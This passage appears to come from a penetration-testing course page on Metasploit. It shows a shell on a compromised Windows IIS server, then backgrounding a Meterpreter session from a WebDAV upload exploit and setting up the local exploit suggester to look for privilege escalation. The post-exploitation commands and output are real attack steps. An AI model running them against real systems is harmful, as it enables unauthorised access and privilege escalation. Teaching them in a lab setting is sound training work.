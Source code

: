 Meterpreter

```cmd-session
c:\Inetpub>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of c:\Inetpub

04/12/2017  05:17 PM    <DIR>          .
04/12/2017  05:17 PM    <DIR>          ..
04/12/2017  05:16 PM    <DIR>          AdminScripts
09/03/2020  01:10 PM    <DIR>          wwwroot
               0 File(s)              0 bytes
               4 Dir(s)  18,125,160,448 bytes free


c:\Inetpub>cd AdminScripts

cd AdminScripts
Access is denied.
```

We can easily decide to run the local exploit suggester module, attaching it to the currently active Meterpreter session. To do so, we background the current Meterpreter session, search for the module we need, and set the SESSION option to the index number for the Meterpreter session, binding the module to it.

**MSF - Session Handling**

Meterpreter

```shell-session
meterpreter > bg

Background session 1? [y/N]  y


msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1
```